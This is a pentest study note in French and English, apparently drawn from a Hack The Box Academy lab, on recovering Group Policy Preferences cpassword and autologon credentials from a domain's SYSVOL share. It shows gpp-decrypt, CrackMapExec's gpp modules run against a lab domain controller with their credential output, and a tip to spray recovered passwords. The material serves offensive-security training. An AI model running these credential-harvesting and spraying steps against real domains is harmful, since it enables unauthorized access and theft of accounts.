

# Group Policy Preferences (GPP) Passwords

### <mark style="color:blue;">Group Policy Preferences (GPP) Passwords</mark>

Lorsqu'une nouvelle **GPP** (_Group Policy Preference_) est créée, un fichier **.xml** est généré dans le partage **SYSVOL**, qui est également mis en cache localement sur les postes de travail auxquels la stratégie de groupe s'applique. Ces fichiers peuvent inclure ceux utilisés pour :

* Mapper des lecteurs (**drives.xml**)
* Créer des utilisateurs locaux
* Créer des fichiers de configuration d'imprimantes (**printers.xml**)
* Créer et mettre à jour des services (**services.xml**)
* Créer des tâches planifiées (**scheduledtasks.xml**)
* Modifier les mots de passe administrateurs locaux

Ces fichiers peuvent contenir une gamme de données de configuration et des mots de passe définis. La valeur de l’attribut **cpassword** est chiffrée en **AES-256 bits**, mais Microsoft a publié la **clé privée AES** sur **MSDN**, ce qui permet de déchiffrer le mot de passe.

Tout **utilisateur du domaine** peut lire ces fichiers car ils sont stockés sur le partage **SYSVOL**, et tous les utilisateurs authentifiés du domaine ont, par défaut, un accès en lecture à ce partage du **contrôleur de domaine**.

Ce problème a été corrigé en **2014** avec la mise à jour **MS14-025** (_Vulnerability in GPP could allow elevation of privilege_), pour empêcher les administrateurs de définir des mots de passe via **GPP**. Cependant, le correctif **ne supprime pas** les fichiers **Groups.xml** contenant des mots de passe déjà stockés dans SYSVOL.\
Si vous supprimez la stratégie GPP au lieu de simplement la **délier de l’OU**, la copie mise en cache sur l’ordinateur local **reste présente**.

**Viewing Groups.xml**

<figure><figcaption></figcaption></figure>

If you retrieve the cpassword value more manually, the `gpp-decrypt` utility can be used to decrypt the password as follows:

<mark style="color:green;">**Decrypting the Password with gpp-decrypt**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE

Password1
```

GPP passwords can be located by searching or manually browsing the SYSVOL share or using tools such as [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

the GPP Metasploit Post Module, and other Python/Ruby scripts which will locate the GPP and return the decrypted cpassword value.&#x20;

CrackMapExec also has two modules for locating and retrieving GPP passwords. One quick tip to consider during engagements: Often, GPP passwords are defined for legacy accounts, and you may therefore retrieve and decrypt the password for a locked or deleted account. However, it is worth attempting to password spray internally with this password (especially if it is unique). Password re-use is widespread, and the GPP password combined with password spraying could result in further access.

<mark style="color:green;">**Locating & Retrieving GPP Passwords with CrackMapExec**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ crackmapexec smb -L | grep gpp

[*] gpp_autologin             Searches the domain controller for registry.xml to find autologon information and returns the username and password.
[*] gpp_password              Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
```


Il est également possible de trouver des mots de passe dans des fichiers tels que **Registry.xml** lorsque l’**autologon** est configuré via **Group Policy**.

Cela peut être mis en place pour diverses raisons afin qu'une machine se connecte automatiquement au démarrage.

Si cette configuration est définie via **Group Policy** et non localement sur l’hôte, alors **n’importe quel utilisateur du domaine peut récupérer les identifiants** stockés dans le fichier **Registry.xml** créé à cet effet.

Ceci est un problème distinct des mots de passe stockés dans **GPP** (Group Policy Preferences), car **Microsoft n’a pris aucune mesure pour empêcher le stockage de ces identifiants en clair dans le SYSVOL**, ce qui les rend accessibles à **tout utilisateur authentifié** sur le domaine.

Nous pouvons rechercher ces identifiants en utilisant **CrackMapExec** avec le module **gpp\_autologin**, ou en utilisant le script **Get-GPPAutologon.ps1** inclus dans **PowerSploit**.

<mark style="color:green;">**Using CrackMapExec's gpp\_autologin Module**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [+] Found SYSVOL share
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Searching for Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Found INLANEFREIGHT.LOCAL/Policies/{CAEBB51E-92FD-431D-8DBE-F9312DB5617D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [+] Found credentials in INLANEFREIGHT.LOCAL/Policies/{CAEBB51E-92FD-431D-8DBE-F9312DB5617D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Usernames: ['guarddesk']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Domains: ['INLANEFREIGHT.LOCAL']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Passwords: ['ILFreightguardadmin!'].
```

